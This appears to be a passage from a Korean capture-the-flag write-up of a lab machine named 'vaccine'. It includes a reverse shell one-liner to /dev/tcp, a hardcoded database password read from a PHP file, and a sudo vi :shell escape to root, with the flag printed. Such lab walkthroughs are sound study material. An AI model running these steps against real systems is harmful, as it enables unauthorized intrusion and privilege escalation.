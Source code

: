 결국 shell 연결하는 방법은 다른 사람의 글을 참고했다. 왜인지는 모르겠으나, `bash -c`를 붙여서 실행해주어야 한다. 그렇지 않을 경우 쉘이 연결되지 않으며 nc의 경우 해당 방식으로도 실패한다. 
``` bash
os-shell> bash -c 'sh -i >& /dev/tcp/10.10.14.175/443 0>&1'
```

이후 [shell 입출력 연결](https://read-min.github.io/posts/shell-io-conntect/)을 진행하고, 주요 파일을 찾던 중 dashboard.php에 현재 로그인한 계정의 password 정보가 있음을 하나 하나 찾아 보았다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# cat /var/www/html/dashboard.php| grep password
          $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

이미 로그인한 계정의 password 정보를 갖고 어디에 사용하는가 했더니 `sudo -l` 명령을 통해 지금 로그인한 계정으로 `sudo` 실행 가능한 명령어 목록을 볼 수 있다.
``` bash
postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

`/bin/vi /etc/postgresql/11/main/pg_hba.conf`을 실행하여 해당 파일의 내용을 볼 수 있다. (사실 파일 내용은 중요하지 않았다.)
> pg_hba.conf는 PostgreSQL 데이터베이스 서버에서 클라이언트의 연결을 어떻게 허용 또는 거부할지를 정의하는 PostgreSQL Host-Based Authentication Configuration 파일입니다. 
``` bash
# TYPE  DATABASE        USER            ADDRESS                 METHOD

local   all             postgres                                ident
# "local" is for Unix domain socket connections only
local   all             all                                     peer
# IPv4 local connections:
host    all             all             127.0.0.1/32            md5
# IPv6 local connections:
host    all             all             ::1/128                 md5
# Allow replication connections from localhost, by a user with the
# replication privilege.
local   replication     all                                     peer
host    replication     all             127.0.0.1/32            md5
host    replication     all             ::1/128                 md5
```

파일 내용이 중요하지 않다고 한 것은 바로 vi(vim)의 기능 중에 `:shell` 이란 기능을 통해 실행 권한에 따른 shell을 획득 할 수 있다. 여기서 중요한점은 `/bin/vi /etc/postgresql/11/main/pg_hba.conf` 실행 시 앞에 꼭 `sudo`를 붙여야 한다. 그렇지 않으면 일반 권한으로 실행되기에 붙여야 한다.
``` bash
$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

# The first field is the connection type: "local" is a Unix-domain
# socket, "host" is either a plain or SSL-encrypted TCP/IP socket,
# "hostssl" is an SSL-encrypted TCP/IP socket, and "hostnossl" is a
# plain TCP/IP socket.
#
:shell
```
이제 root shell을 획득하여 아래와 같이 flag를 볼 수 있다.
``` bash
root@vaccine:/var/lib/postgresql/11/main# cat /root/root.txt
dd6e058e814260bc70e9bbdef2715849
```